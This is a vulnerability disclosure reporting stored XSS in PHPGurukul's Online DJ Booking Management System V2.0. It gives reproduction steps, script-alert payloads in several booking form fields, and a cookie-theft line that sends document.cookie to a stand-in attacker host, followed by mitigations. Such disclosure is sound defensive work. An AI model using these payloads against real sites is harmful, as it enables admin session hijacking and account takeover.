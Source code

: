 # Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/view-booking-detail.php`, `/invoice-generating.php`                       |
| **Affected File(s)**    | `odms/admin/view-booking-detail.php`, `odms/admin/invoice-generating.php`   |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user—often an administrator—views the stored data, the script is executed in their browser.

In this case, **anyone can submit an event request** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that booking request, the script executes in their browser, potentially leading to:

- Cookie theft
- Session hijacking
- Unwanted actions performed on behalf of the admin

## Steps to Reproduce

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS).  
> **For privacy reasons, I'm hiding the domain name.**

1. **Book the service using the following URL:**

    ```
    https://domain.com/book-services.php?bookid=1
    ```

    ![Service Page](./images/book-service-page.png)

    Fill in test data and capture the request using **Burp Suite**.

2. **Edit the request parameters with XSS payloads.**

    Affected parameter names:

    - `name`
    - `email`
    - `edate` (event date)
    - `est` (event start time)
    - `eetime` (event end time)
    - `vaddress` (venue address)
    - `eventtype` (event type)
    - `addinfo` (additional info)

    Example request with payloads:

    ```javascript
    name=<script>alert("from-name")</script>&
    email=<script>alert("from-email")</script>%40gmail.com&
    mobnum=123&
    edate=<script>alert("from-date")</script>&
    est=<script>alert("from-start-time")</script>&
    eetime=<script>alert("from-end-time")</script>&
    vaddress=<script>alert("from-address")</script>&
    eventtype=<script>alert("from-type")</script>&
    addinfo=<script>alert("from-add-info")</script>&
    submit=Book
    ```

    ![XSS Payload Request](./images/burp-repeater.png)

3. **Log into the admin account and navigate to the new bookings page:**

    Sidebar → **BOOKING** → **New Booking**

    ```
    https://domain.com/admin/new-booking.php
    ```

    ![New Booking Page](./images/new-booking-page.png)

4. **Click the "View" button on the submitted booking.**

    The XSS payloads will trigger with JavaScript `alert()` pop-ups for each infected field.

    ![XSS Trigger - Name](./images/from-name.png)  
    ![XSS Trigger - Email](./images/from-email.png)  
    ![XSS Trigger - Date](./images/from-date.png)  
    ![XSS Trigger - Start Time](./images/from-start-time.png)  
    *(Additional alerts appear for End Time, Address, Event Type, and Additional Info.)*

5. **Click the "Update" button on the booking.**

    ![Update Booking](./images/update-app.png)

6. **Navigate to the approval bookings page:**

    Sidebar → **BOOKING** → **Approval Booking**

    ![Approval Bookings](./images/approval-page.png)

7. **Click the "Invoice" button.**

    The same XSS payloads will trigger again, one per infected field.

    ![Invoice XSS Trigger](./images/invoice-page-xss.png)


## Impact of Stored XSS

- Any user (no authentication required) can submit a booking with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and the data is stored in the system.
- When the **admin views the booking** in the dashboard, the malicious script is executed in the admin's browser.
- This can lead to **admin account takeover** by stealing the session cookie using a simple payload like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- Once the attacker obtains the admin's cookie, they can impersonate the admin and gain full access to the system.

---

## ✅ Recommended Mitigations

- **Input Sanitization**  
  Strip or escape HTML/JavaScript tags from all user inputs before storing them.

- **Output Encoding**  
  Always encode data before rendering it in the browser (e.g., using `htmlspecialchars()` or the equivalent in your framework).

- **Use Templating Engines That Auto-Escape Output**  
  Leverage modern PHP templating engines that escape output by default:
  - **Twig**: `{{ name }}` auto-escapes output.
  - **Blade (Laravel)**: `{{ $name }}` also auto-escapes output.

- **Content Security Policy (CSP)**  
  Implement a strong CSP header to restrict execution of unauthorized scripts.

- **HTTPOnly Cookies**  
  Ensure session cookies are marked as `HttpOnly` to prevent access via JavaScript.

- **Input Validation**  
  Validate input type, format, and length to reject suspicious or unnecessary data.

---

## 📚 References

- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)


